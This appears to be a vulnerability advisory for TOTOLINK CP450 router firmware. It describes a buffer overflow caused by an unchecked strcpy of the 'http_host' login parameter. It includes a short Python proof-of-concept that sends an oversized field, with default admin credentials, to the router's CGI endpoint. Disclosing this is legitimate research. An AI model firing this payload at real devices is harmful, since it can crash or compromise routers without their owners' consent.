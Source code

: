 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.net/data/upload/20200414/2254ce90058da1a549566852c86031db.zip

## Affected version

CP450 v4.1.0cu.747_B20191224

## Vulnerability details

In the CP450 v4.1.0cu.747_B20191224 firmware has a buffer overflow vulnerability in the `loginauth` function. The `v8` variable receives the `http_host` parameter from a POST request. However, since the user can control the input of `http_host`, the statement `strcpy(v26, v8);` can cause a buffer overflow injection vulnerability.

![image-20240719101917489](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240719101917489.png)

![image-20240719101821295](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240719101821295.png)

![image-20240719101834445](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240719101834445.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {"username":"admin","password":"admin","http_host":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa","verify":"0","flag":"0","topicurl":"loginAuth"}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240720235644369](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240720235644369.png)
